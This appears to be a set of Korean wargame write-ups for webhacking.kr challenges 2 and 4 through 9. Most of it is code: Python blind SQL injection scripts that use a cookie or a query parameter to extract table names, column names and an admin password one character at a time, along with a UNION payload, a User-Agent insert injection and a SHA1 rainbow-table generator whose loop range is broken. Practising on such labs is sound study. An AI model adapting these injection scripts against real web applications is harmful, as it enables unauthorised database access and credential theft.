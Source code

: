 
# 2.time 쿠키 이용
(select count(table_name) from information_schema.tables where table_schema=database())
	테이블 개수 : 2
(select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)
	첫번째 테이블 글자 수 : 13
(select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)
	두번째 테이블 글자 수 : 3

python 코드

import requests

def calculate_time(response):
    value=0
    value+=60*int(response.text[20])
    value+=10*int(response.text[22])
    value+=int(response.text[23])
    return value

url='https://webhacking.kr/challenge/web-02/'

cookies={
    "PHPSESSID": "kc0olm3qr80jeg9ifiv8csoalc"
}

for i in range(2):
    cookies['time']="(select length(table_name) from information_schema.tables where table_schema=database() limit {}, 1)".format(i)
    response=requests.get(url, cookies=cookies)
    t_name_length=int(calculate_time(response))
    t_name=""
    for a in range(1, t_name_length+1):
        cookies['time']="(select ascii(substring(table_name, {}, 1)) from information_schema.tables where table_schema=database() limit {}, 1)".format(a, i)
        response=requests.get(url, cookies=cookies)
        t_name+=chr(calculate_time(response))
    print(t_name)

t_name = "admin_area_pw"

cookies['time']="(select length(column_name) from information_schema.columns where table_name='{}')".format(t_name)
response=requests.get(url, cookies=cookies)
c_name_length=int(calculate_time(response))

c_name=""
for b in range(1, c_name_length+1):
    cookies['time']="(select ascii(substring(column_name, {}, 1)) from information_schema.columns where table_name='{}')".format(b, t_name)
    response=requests.get(url, cookies=cookies)
    c_name+=chr(calculate_time(response))

print(c_name)

cookies['time']="(select length({}) from {})".format(c_name, t_name)
response=requests.get(url, cookies=cookies)
pw_length=int(calculate_time(response))

password=""
for c in range(1, pw_length+1):
    cookies['time']="(select ascii(substring({}, {}, 1)) from {})".format(c_name, c, t_name)    
    response=requests.get(url, cookies=cookies)
    password+=chr(calculate_time(response))

print(password)
(select ascii(substring(table_name, 1, 1)) from information_schema.tables where table_schema=database() limit 0,1)
	첫번째 테이블의 첫번째 글자 : 97(a)
(select ascii(substring(table_name, 2, 1)) from information_schema.tables where table_schema=database() limit 0,1)
	첫번째 테이블의 두번째 글자 : 100(d)
(select ascii(substring(table_name, 3, 1)) from information_schema.tables where table_schema=database() limit 0,1)
	첫번째 테이블의 세번째 글자 : 109(m)
(select ascii(substring(table_name, 4, 1)) from information_schema.tables where table_schema=database() limit 0,1)
	첫번째 테이블의 네번째 글자 : 105(i)
(select ascii(substring(table_name, 5, 1)) from information_schema.tables where table_schema=database() limit 0,1)
	첫번째 테이블의 다섯번째 글자 : 110(n)
(select ascii(substring(table_name, 6, 1)) from information_schema.tables where table_schema=database() limit 0,1)
	첫번째 테이블의 여섯번째 글자 : 95( _ )
(select ascii(substring(table_name, 7, 1)) from information_schema.tables where table_schema=database() limit 0,1)
	첫번째 테이블의 일곱번째 글자 : 97(a)
(select ascii(substring(table_name, 8, 1)) from information_schema.tables where table_schema=database() limit 0,1)
	첫번째 테이블의 여덟번째 글자 : 114(r)
(select ascii(substring(table_name, 9, 1)) from information_schema.tables where table_schema=database() limit 0,1)
	첫번째 테이블의 아홉번째 글자 : 101(e)
(select ascii(substring(table_name, 10, 1)) from information_schema.tables where table_schema=database() limit 0,1)
	첫번째 테이블의 열번째 글자 : 97(a)
(select ascii(substring(table_name, 11, 1)) from information_schema.tables where table_schema=database() limit 0,1)
	첫번째 테이블의 열한번째 글자 : 95( _ )
(select ascii(substring(table_name, 12, 1)) from information_schema.tables where table_schema=database() limit 0,1)
	첫번째 테이블의 열두번째 글자 : 112(p)
(select ascii(substring(table_name, 13, 1)) from information_schema.tables where table_schema=database() limit 0,1)
	첫번째 테이블의 열세번째 글자 : 119(w)
(select ascii(substring(table_name, 1, 1)) from information_schema.tables where table_schema=database() limit 1,1)
	두번째 테이블의 첫번째 글자 : 108(l)
(select ascii(substring(table_name, 2, 1)) from information_schema.tables where table_schema=database() limit 1,1)
	두번째 테이블의 두번째 글자 : 111(o)
(select ascii(substring(table_name, 3, 1)) from information_schema.tables where table_schema=database() limit 1,1)
	두번째 테이블의 세번째 글자 : 103(g)

admin_area_pw
log

# 4.rainbow table
	문제의 횟수만큼 해싱
	앞의 8자리만 저장
	해싱된 출력값의 8자리와 저장된 값 비교

from hashlib import sha1

f = open("webhackingkr4.txt", 'w')

for i in range(10000000, 1999999):
    hash = str(i) + "salt_for_you"
    for j in range(0, 500):
        hash = sha1(hash.encode('utf-8')).hexdigest()
    f.write(str(i) + ":" + hash[:8] +"\n")
f.close()

# 5.eval함수로 난독화
	javascript unpacker beutifier
	console 창에 난독화 내용 입력하면 해독됨
	한칸 띄우고 admin으로 아이디를 만들면 해결

# 6.base64로 20번 디코딩한 값이 id = admin, pw = nimda 가 나오도록
import base64

id = b"admin"
pw = b"nimda"

encode_id = id
encode_pw = pw

for i in range(20):
    encode_id = base64.b64encode(encode_id)
    encode_pw = base64.b64encode(encode_pw)

print(encode_id)
print(encode_pw)

# 7.val= 에 2를 넣기

$rand=rand(1,5);  
`if($rand==1){  $result=mysqli_query($db,"select lv from chall7 where lv=($go)") or die("nice try!");`  
`}`  
`if($rand==2){  $result=mysqli_query($db,"select lv from chall7 where lv=(($go))") or die("nice try!");`  
`}`  
`if($rand==3){  $result=mysqli_query($db,"select lv from chall7 where lv=((($go)))") or die("nice try!");`  
`}`  
`if($rand==4){  $result=mysqli_query($db,"select lv from chall7 where lv=(((($go))))") or die("nice try!");`  
`}`  
`if($rand==5){  $result=mysqli_query($db,"select lv from chall7 where lv=((((($go)))))") or die("nice try!");`  
`}`

val=$go에 들어갈 값 대입

val=500)union(select(16>>3) 

# 8.User-Agent 값 변경

User Agent : test','127.0.0.1','admin'),'5678
입력 후 User Agent에 test 입력

# 9.blind injection

?no=0,1,2,3 만 출력값이 나오는 것을 이용

3번을 통해 no, id라는 열이 있다는 것을 파악

import requests

url = 'https://webhacking.kr/challenge/web-09/'
cookie = {
    "PHPSESSID": "YOUR_PHPSESSID",
}

def find_pw_len():
    global url
    payload = "if(length(id)like({}),3,0)"
    for i in range(0, 100):
        r = requests.get(url + '?no=' + payload.format(str(i)), cookies=cookie)
        if "Secret" in r.text:
            print(f"[!] Found pw length: {i}")
            res = i
            break
    return res

`def find_pw(pw_len):`
    `global url`
    `res = ""`
    `payload = "if(substr(id,{},1)like({}),3,0)"`
    `for i in range(1, pw_len+1):`
        `for j in range(0x30, 0x7d):`
            `r = requests.get(url + '?no=' + payload.format(i, hex(j)), cookies=cookie)`
            `if "Secret" in r.text:`
                `print(f"[*] pw {i} : {chr(j)}")`
                `res += chr(j)`
                `break`
    `print(f"[*] Final password : {res}")`

if __name__ == "__main__":
    pw_len = find_pw_len()
    find_pw(pw_len)
